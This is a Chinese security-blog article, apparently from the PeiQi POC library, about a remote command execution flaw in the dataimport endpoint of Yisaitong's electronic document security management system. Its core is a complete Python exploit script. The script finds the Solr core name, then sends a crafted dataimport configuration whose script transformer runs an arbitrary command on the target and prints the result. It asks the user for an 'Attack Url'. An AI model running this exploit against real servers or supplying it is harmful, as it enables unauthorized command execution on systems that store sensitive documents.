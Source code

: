 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/thL73Cr594vJ9dwSq1l59Q)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**亿赛通 电子文档安全管理系统 dataimport 存在远程命令执行漏洞，攻击者通过构造特定的请求可执行任意命令**

**二:  漏洞影响🐇**

**亿赛通 电子文档安全管理系统**

**三:  漏洞复现🐋**

```
title="电子文档安全管理系统"
```

**登录页面如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6dAHa1ykdYhq590k5kG3CIuxNWFlY3DXMFMX46sxW7HyWV7ib2UkbUxovnKiaeCb0N61V32VHdT8Ag/640?wx_fmt=png)

**先获取 core name,** **访问路径**

```
/solr/admin/cores
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6dAHa1ykdYhq590k5kG3CI1Ol2kSmcAD6qZafpIxWqHbz8QNWb7PQHibxzpa2TR4hdaUvAjOZ2oUw/640?wx_fmt=png)

**使用 POC 执行 whoami**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6dAHa1ykdYhq590k5kG3CIpNgYE1ib2hYQsUetJM57kOkEliaIlQKPbxvmMXLBicNawBSqNXyAWvh6g/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 亿赛通 电子文档安全管理系统 dataimport 远程命令执行漏洞            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/solr/admin/cores"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/solr/admin/cores.... \033[0m".format(target_url))
        if 'responseHeader' in response.text and response.status_code == 200:
            result = re.search(
                r'<str >([\s\S]*?)</str><str >', response.text, re.I)
            core_name = result.group(1)
            print("\033[36m[o] 获取core_name : {} \033[0m".format(core_name))
            POC_2(target_url, core_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, core_name):
    cmd = "whoami"
    vuln_url = target_url + "/solr/{}/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22{}%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20".format(core_name, cmd)
    files = {
        'stream.body': '''<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>'''
    }
    try:
        print("\033[36m[o] 正在执行 whoami ... \033[0m".format(target_url))
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, files=files, verify=False, timeout=5)
        cmd_response = re.search(
                r'documents"><lst><arr ><str>([\s\S]*?)</str></arr></lst>', response.text, re.I)
        cmd_response = cmd_response.group(1)
        if response.status_code == 200 and cmd_response:
            print("\033[36m[o] 命令响应为:\n{} \033[0m".format(cmd_response))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

 ****五:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**
